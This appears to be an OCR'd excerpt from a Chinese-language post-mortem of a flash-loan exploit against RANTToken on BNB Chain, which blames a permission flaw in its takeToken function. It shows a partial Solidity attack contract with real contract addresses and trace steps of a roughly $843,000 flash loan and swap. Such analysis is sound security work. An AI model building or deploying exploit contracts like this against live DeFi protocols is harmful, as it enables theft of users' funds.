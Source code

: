 ### 🎲 漏洞根因分析

#### 核心漏洞: takeToken函数权限缺陷

```plaintext
/**
 * @title 攻击合约 - 闪电贷套利机器人
 * @dev 该合约利用RANTToken的takeToken函数漏洞进行套利
 */
contract AttackContract {
    // 关键常量
    address constant WBNB = 0xbb4cdb9cbd36b01bd1cbaebf2de08d9173bc095c;
    address constant TARGET_TOKEN = 0xc321ac21a07b3d593b269acdace69c3762ca2dd0; // RANTToken
    address constant PANCAKE_POOL = 0x172fcd41e0913e95784454622d1c3724f546f849;
    address constant PANCAKE_ROUTER = 0x10ed43c718714eb63d5aa57b78b54704e256024e;
    
    /**
     * @dev 攻击启动函数
     * 执行完整的闪电贷攻击流程
     */
    function start() external payable {
        // 1. 查询目标池的代币余额
        uint256 targetBalance = IERC20(TARGET_TOKEN).balanceOf(TARGET_PAIR);
        
        // 2. 计算需要的闪电贷金额
        uint256 flashAmount = targetBalance * 900 / 1000; // 90%的余额
        
        // 3. 发起闪电贷攻击
        IPancakeV3Pool(PANCAKE_POOL).flash(
            address(this),
            0,
            flashAmount,  // 2,813,769,505,544,453,342,436 wei WBNB
            abi.encode(flashAmount)
        );
    }
}
```

```shellscript
📍 步骤 8: 闪电贷调用
函数: flash(address=0xfd9267ee..., uint256=0, uint256=2813769505544453342436, bytes=0x...)
资金: 2,813.77 WBNB (约$843,000)
目标: PancakeV3Pool (0x172fcd41...)
```

```shellscript
📍 步骤 16: 代币交换
函数: swap(uint256=0, uint256=96605739642631517916080650, address=0xfd9267ee..., bytes=0x...)
输入: 2,813.77 WBNB
输出: 96,605,739,642,631,517,916,080,650 RANTToken
池子: PancakePair (0x42a93c3a...)
```
